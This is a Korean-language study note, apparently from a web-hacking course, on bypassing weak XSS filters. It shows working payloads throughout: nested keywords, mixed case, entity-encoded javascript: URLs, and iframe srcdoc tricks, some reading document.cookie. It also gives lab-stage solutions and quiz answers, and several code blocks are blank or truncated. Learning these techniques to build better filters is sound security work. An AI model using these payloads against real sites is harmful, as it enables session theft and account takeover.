










**XSS를 방어하기 위해 필터링을 추가되어있을 때 이를 우회하는 방법**  
# 불충분한 XSS 필터링  

## XSS 필터링의 배경  
HTML은 **SGML을 바탕** -> 기능을 상당 수 유지함으로써 **문법이 복잡**해졌고, 이에 따라 HTML을 해석하는 **소프트웨어의 구조 또한 정교화**  
**브라우저 전쟁** 을 거치면서 별다른 규율 없이 **태그 등을 늘림**  
-> 이러한 과정을 통해 HTML를 해석하는 소프트웨어 작성에 어려움을 겪었고, XSS 필터링도 비활성화 해야하는 경우가 생겼다.  
-> 보안을 위해 XSS 필터링은 **안전하다고 알려진 마크업만 허용**하는 보수적인 방식 (Allowlist 필터링)을 취해야 합니다.  
## 이벤트 핸들러 속성  
자바스크립트 코드를 실행할 수 있는 HTML 태그는 **<script>** 이외에도 상당수 존재  
-> 예 : **onload, onerror, onfocus** 등  
### onload 이벤트 핸들러  
요청하는 데이터를 **로드**한 후에 **실행**, 만약 **로드에 실패**했다면 **실행되지 않습니다.**  
```html

<!-- → 유효한 이미지 로드 후 onload 핸들러 실행 -->


<!-- → 이미지 로드 실패, onload 핸들러 실행하지 않음 -->
```
### onerror 이벤트 핸들러  
요청하는 데이터를 **로드하는데 실패**할 시 **실행**, 만약 **로드에 성공**했다면 **실행되지 않습니다.**  
```html

<!-- → 유효한 이미지 로드 성공, onerror 핸들러 실행하지 않음 -->


<!-- → 이미지 로드 실패, onerror 핸들러 실행 -->
```
### onfocus 이벤트 핸들러  
**input 태그**에 커서를 클릭하여 **포커스가 되면 실행**되는 이벤트 핸들러  
일반적으로 공격 상황에서 
1. input 태그의 **autofocus 속성**을 이용해 **자동으로 포커스** 시킴
2. **URL의 hash 부분**에 **input 태그의 id 속성 값**을 입력(e.g. http://dreamhack.io/#inputID) 해서 자동으로 포커스 되도록 합니다.  
```html
<input type="text" id="inputID" onfocus="alert(document.domain)" autofocus>
<!-- → autofocus 속성으로 인해 페이지가 로드되지마자 바로 input 태그에 포커스함, 포커스된 직후 onfocus 핸들러 실행 -->
```

## 문자열 치환  
XSS 키워드를 필터링할 때 단순히 **치환 혹은 제거**하는 방식의 필터링 관습이 존재함  
예 : **script** 를 필터링 했을 때, **scrscriptipt** 를 사용하면, 중간의 script가 필터링되고 바깥 쪽의 script가 남는다.  
다음은 필터링 우회 예시이다.  
```
(x => x.replace(/onerror/g, ''))('')
--> 
```
대응 방안으로 흔히 문자열에 **변화가 없을 때까지 지속적으로 치환**하는 방식이 있다.  
```
function replaceIterate(text) {
    while (true) {
        var newText = text.replace(/script|onerror/gi, '');
        if (newText === text)
            break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> 
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;&gt;parent.alert(1)&lt;/&gt;" />
```

## 문자열 치환 실습  
### Stage 1  
  

**script** 를 빈 문자열로 치환한다.  
  

다음과 같이 **<script>alert(1)</script>** 을 적으면 필터링 되는 것을 알 수 있다.  
이 때, 중첩해서 문자열을 적으면 우회할 수 있다.  
  

**<scrscriptipt>alert(1)</scrscriptipt>** 라고 적으면 성공이다.  

### Stage 2  
  

**onerror** 를 빈 문자열로 치환한다.  
  
다음과 같이 적으면 onerror가 필터링 된다.  
```html

```

  

이전 Stage 1과 같이 문자열을 중첩해서 적으면 우회할 수 있다. 
즉, **onerror**를 중첩해서 적으면 된다.  
```html

```

## 활성 하이퍼링크  
HTML 에서 사용될 수 있는 URL들은 활성 콘텐츠를 포함할 수 있습니다.  
이 중 **javascript:** 스키마는 **URL 로드 시 자바스크립트 코드를 실행**할 수 있도록 합니다.  
```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```
다음과 같이 **a, iframe** 태그에서 javascript를 사용할 수 있다.  
이 경우에 **정규화**를 이용해 필터링을 우회할 수 있다.  
```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```
또한 태그 속성 내에서 **HTML Entity Encoding** 을 사용할 수 있다.  
즉, **javascript:** 나 다른 키워드로 인코딩해서 우회할 수 있다.  
```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```
자바스크립트에서는 **URL 객체**를 통해 URL을 직접 **정규화할 수 있으며**, **protocol, hostname 등 URL의 각종 정보를 추출**할 수 있습니다.  
```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)').href
--> "javascript:alert(1)"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

## 태그와 속성 기반 필터링  
단순히 **태그나 속성을** 바탕으로 **필터링**를 하게 되면 **우회**가 가능한 경우가 많습니다.  
### 대문자 혹은 소문자만을 인식하는 필터 우회  
```javascript
x => !x.includes('script') && !x.includes('on')
```
다음과 같이 **script, on** 등을 필터링 할 때, 대소문자 전부 검사하지 않으면, 아래처럼 대소문자를 섞어서 우회할 수 있다.  
```html
<sCRipT>alert(document.cookie)</scriPT>

```

### 잘못된 정규표현식을 사용한 필터 우회  
보통 필터링을 할 때, **정규표현식**을 사용한다. 이 때, 정규표현식에 문제가 있다면 우회할 수 있다.  
다음은 **스크립트 태그 내에 데이터가 존재하는지 검사하는 정규 표현식** 이다.  
```javascript
x => !/<script[^>]*>[^<]/i.test(x)

참고로 /<script[^>]*>[^<]/i 의 정규표현식 의미는 다음과 같다.
/: 정규표현식의 시작을 나타냅니다.
<script: <script 문자열을 찾습니다.
[^>]*: <script 태그 내부에 있는 > 이외의 모든 문자를 0개 이상 찾습니다.
>: <script 태그의 닫힘 괄호를 찾습니다.
[^<]: < 문자 이외의 모든 문자를 찾습니다.
/i: 대/소문자를 구분하지 않고 검색합니다.
```

스크립트 태그의 경우 **태그 내에 데이터가 존재하지 않아도** **src** 속성을 이용해 **데이터를 입력할 수 있다.** 이를 이용해 우회할 수 있다.  
```html
<script src="data:,alert(document.cookie)"></script>
```

다음 필터링은 **** 태그에 **on** 핸들러가 있는지 검사하는 필터이다.
```javascript
x => !/
```
### 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회  
다음은 **script, img, input 태그**를 필터링하는 코드이다.  
```javascript
x => !/<script|<source onerror="alert(document.domain)"/></video>
<body onload="alert(document.domain)"/>
```
다음은 이전 필터링에서 **on 이벤트 핸들러**와 **멀티 라인을 지원하는 문자**를 필터링이다.  
```javascript
x => !/<script|
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```
## 태그와 속성 기반 필터링 실습  
### Stage 1  
  

**script**를 필터링 한다.  
여기서 중요한 점은 대문자는 필터링하지 않는다.  
  
따라서 **<Script>alert(1)</Script>** 처럼 script에 대문자를 사용하면 우회할 수 있다.  

## Stage 2  
  
입력한 문자를 소문자로 바꾼 후, script가 포함되어있는지 검사한다.  
여기서는 script를 사용할 수 없기 때문에, 다른 태그를 사용하면 된다.  
  

```html

```
위와 같이 **img** 태그를 사용할 수 있다.  
## Stage 3  
  

script, on 을 필터링한다.  
이 문제는 **iframe** 을 사용하면 된다. 그 중에서 **javascript:** 은 사용할 수 없으므로, **srcdoc** 속성을 이용한다.  
  

여기서 하나 중요한 점은 바로 **parent.alert(document.domain)** 이다. 이 부분을 찾지 못해서 답을 미리 봤지만, 설명해보자면 위에 적은 스크립트는 **iframe**으로 생성된 iframe 안에서 호출된다.  
이 실습을 풀기 위해, iframe의 바깥 쪽(상위 문서) 에서 alert를 실행해야 인식할 수 있기 때문에, 상위 문서를 의미하는 **parent** 를 이용한다.  
# 퀴즈  
1. 블랙리스트 기반 필터링이 근본적인 해결책이 될 수 없는 이유를 모두 고르시오  
**답** : 개발자가 인지하지 못하는 키워드가 존재할 수 있기 때문에, HTML 표준과 브라우저의 기능은 나날이 변화하고 추가되기 때문에  
2. 안전하다고 알려진 마크업만 허용하는 필터링 방식은 무엇인가?  
**답** : 화이트리스트 필터링  
